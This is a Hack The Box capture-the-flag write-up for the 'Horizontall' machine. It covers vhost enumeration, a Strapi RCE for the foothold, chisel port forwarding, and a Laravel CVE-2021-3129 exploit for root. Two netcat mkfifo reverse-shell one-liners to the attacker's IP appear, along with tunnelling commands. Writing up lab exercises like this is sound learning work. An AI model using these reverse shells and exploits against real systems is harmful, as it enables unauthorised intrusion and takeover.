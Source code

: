 ```yaml
---
title: "Horizontall Hackthebox writeup"
header:
  teaser: "/assets/images/Horizontall/start.png"
tags: ["Hackthebox", "Port forwarding", "chisel"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-02-04T00:45:09+02:00
toc: true
draft: false
---
```


we got low-privilege access due to Vulnerable version of strapi CMS then got root access because of the Vulnerable Version of Laravel. main techniques used are : Vhost enumeration and port forwarding without ssh

<!--more-->

# Scanning :

to make our life easier will export ip to use the variable $IP instead of re-typing ip

```
$export IP=10.10.11.105
```

starting with a basic scanning :

```bash
$nmap -sV -v $IP -oN nmap/intial
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)

```

when try to visit http it can't be opened which is an indicator we will need to make Vhost enumeration Latter

![error](/assets/images/Horizontall/20210906143308.png)

so you need to add it to /etc/hosts

![error](/assets/images/Horizontall/20210906143207.png)

### directory Busting :

```bash
$ gobuster dir -u "http://horizontall.htb/" -w /usr/share/wordlists/dirb/common.txt
```

results :

```bash
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/favicon.ico          (Status: 200) [Size: 4286]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/index.html           (Status: 200) [Size: 901]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]

```

### Vhosts enumeration :

```bash
$ gobuster vhost -u horizontall.htb  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

you can also use ffuf like this :

```bash
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Horizontall.htb" -u http://horizontall.htb/ -c -fc 301
```

-fc : filter by code u don't want

```bash
results:
www                     [Status: 200, Size: 901, Words: 43, Lines: 2]
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20]
```

add api-prod to the /etc/hosts

![error](/assets/images/Horizontall/20210906150314.png)

## Foothold :

![error](/assets/images/Horizontall/20210906150257.png)

### Directory Busting :

```bash
$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://api-prod.horizontall.htb/FUZZ

```

results :

```bash
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```

![error](/assets/images/Horizontall/20210906150553.png)

searching for strapi exploit and found RCE exploit [here](https://www.exploit-db.com/raw/50239)

as we see it is a blind RCE we can verify it is valid By pinging our host :

![error](/assets/images/Horizontall/20210906152020.png)

so let's get our reverse shell :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 9999 >/tmp/f
```

### stablize the shell :

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

### we are in

![](/assets/images/Horizontall/20210906143208.png)

## Privilege escalation :

after some manual enumeration i tried to see what are the ports running on this machine with

```bash
ss -lpnut
```

and found this :

```
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port
tcp    LISTEN   0        128             127.0.0.1:8000          0.0.0.0:*
```

you can also run [LinEnum](https://github.com/rebootuser/LinEnum) and reach the same conclusion

this port wasn't in the nmap scan so it isn't publiclly exposed.

to verify this is a path we can take to look for an escalation Factor i tried to see what is the service running at this port :

![](/assets/images/Horizontall/20210906143218.png)

and at the bottom of the output i found :

```bash
Laravel v8 (PHP v7.4.18)
```

searching if it has an exploit and found many so we can now do **port forwarding** to see the web page at our browser and deal with it

## port forwading

we have many ways to achieve that i tried ssh remote port forwarding But it doesn't work , so i used [chisel](https://github.com/jpillora/chisel/releases)

- download version on your side and upload same version on the victim side

so what we are going to do here is port forward 8000 at this machine to 8000 at our machine and the traffic is through port 12312

> commands :

on server side (my side) :

`$./chisel_1.7.6_linux_amd64 server -p 12312 --reverse`

on victim side :

`$ ./chisel_1.7.6_linux_amd64 client <my_ip>:12312 R:8000:127.0.0.1:8000`

![error](/assets/images/Horizontall/20210906154327.png)

now as we said before this laravel version has exploits i used [this](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py) one

testing it :

![error](/assets/images/Horizontall/20210906154800.png)

so let's get a reverse shell Finally as root

```bash
python3 exploit.py "http://127.0.0.1:8000" Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 8888 >/tmp/f"
```

![error](/assets/images/Horizontall/20210906154921.png)

pwned on 5 september 2021 .

